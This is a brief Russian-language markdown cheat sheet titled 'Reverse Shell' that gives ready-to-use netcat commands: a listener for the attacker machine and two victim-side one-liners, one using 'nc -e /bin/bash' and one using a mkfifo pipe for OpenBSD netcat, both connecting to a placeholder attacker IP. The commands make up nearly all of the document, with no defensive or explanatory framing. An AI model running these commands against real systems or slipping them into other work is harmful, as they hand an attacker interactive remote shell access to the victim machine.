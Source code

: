 ```yaml
---
title: Reverse Shell
description: Используя Traditional и OpenBSD Netcat
date: 2022-12-09T15:02:00+05:00
tags: [linux, ssh, hack]
---
```


## Машина атакующего
```shell
nc -lvp <port>
```
## Машина жертвы (Traditional Netcat)

```shell
nc <attacker-ip> <port> -e /bin/bash
```

## Машина жертвы (OpenBSD Netcat)

```shell
mkfifo /tmp/rev; nc <attacker-ip> <port> < /tmp/rev | /bin/bash 2>&1 | tee /tmp/rev > /dev/null
```
